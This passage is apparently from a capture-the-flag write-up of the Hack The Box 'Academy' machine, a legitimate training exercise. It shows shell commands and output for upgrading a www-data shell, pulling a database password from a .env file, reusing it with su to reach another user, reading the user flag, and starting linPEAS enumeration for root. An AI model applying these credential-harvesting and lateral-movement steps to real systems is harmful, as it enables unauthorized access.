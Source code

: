     whoami
    www-data

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@academy:/var/www/html/htb-academy-dev-01/public$

    www-data@academy:/home$ ls -al
      ls -al
      total 32
      drwxr-xr-x  8 root     root     4096 Aug 10 00:34 .
      drwxr-xr-x 20 root     root     4096 Aug  7 12:07 ..
      drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10 00:34 21y4d
      drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10 00:34 ch4p
      drwxr-xr-x  4 cry0l1t3 cry0l1t3 4096 Aug 12 21:58 cry0l1t3
      drwxr-xr-x  3 egre55   egre55   4096 Aug 10 23:41 egre55
      drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10 00:34 g0blin
      drwxr-xr-x  5 mrb3n    mrb3n    4096 Aug 12 22:19 mrb3n


5. Enumerating the machine we find credentials in /var/www/html/academy/.env

    DB_DATABASE=academy
    DB_USERNAME=dev
    DB_PASSWORD=mySup3rP4s5w0rd!!

  Try the password with previous found usernames.

    su cry0l1t3
    Password: mySup3rP4s5w0rd!!

    $ whoami
    whoami
    cry0l1t3


    python3 -c 'import pty;pty.spawn("/bin/bash")'
    cry0l1t3@academy:/var/www/html/academy/public$
    cry0l1t3@academy:/var/www/html/academy/public$ cd ~
    cry0l1t3@academy:~$ cat user.txt
      b6254e041fcd518b6e09ed6ebb07b3d8


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Upload and run linPEAS.sh

  [+] All users & groups
  uid=0(root) gid=0(root) groups=0(root)
  uid=1000(egre55) gid=1000(egre55) groups=1000(egre55),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
  uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
  uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
  uid=1003(21y4d) gid=1003(21y4d) groups=1003(21y4d)
  uid=1004(ch4p) gid=1004(ch4p) groups=1004(ch4p)
  uid=1005(g0blin) gid=1005(g0blin) groups=1005(g0blin)
